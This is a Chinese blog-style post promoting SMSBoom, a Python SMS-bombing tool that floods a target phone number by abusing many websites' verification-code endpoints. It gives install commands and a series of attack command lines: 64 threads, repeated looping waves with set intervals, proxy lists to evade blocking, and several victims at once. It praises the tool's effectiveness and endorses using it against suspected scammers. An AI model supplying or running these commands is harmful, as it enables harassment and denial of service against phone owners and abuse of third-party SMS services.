 资料来源：<br/>
[smsboom](https://github.com/OpenEthan/SMSBoom)


## smsboom
在 GitHub 上看到一个高一美术生写的一个健壮免费的python短信轰炸程序，专门炸坏蛋蛋，百万接口，多线程全自动添加有效接口，支持异步协程百万并发，自己对自己的号码用了一下，确实是短信轰炸，要不是及时 Ctrl C，怕是手机要崩溃。

其实原理很简单，明白之后，你也可以做一个。就是调用很多网站注册账户时发送手机验证码的接口，给要指定的手机号发送无穷无尽的验证码，看个图片就明白了

![63b87ab058adf9bbf7a6fc10c0271ca5](img\63b87ab058adf9bbf7a6fc10c0271ca5.jpg ':size=60%')：

## 项目地址

https://github.com/WhaleFell/SMSBoom

## 使用方法

下载，并安装依赖：

```javascript
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
cd SMSBoom
pip install requirements.txt 
```

复制

单线程调用：

```javascript
python smsboom.py oneRun -p 198xxxxxxxx
```

复制

多线程调用：

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

协程调用：

```javascript
python smsboom.py asyncRun -p 198xxxxxxxx
```

复制

### **命令示例**

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

复制

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```

复制

## 最后

好用是真的好用，但请不要滥用，我能想到的就是对那些是手机号的诈骗电话可以试一下。此外，这个仓库可以作为我们学习多线程和协程的一个有趣的开源项目。如果觉得有帮助，请点赞。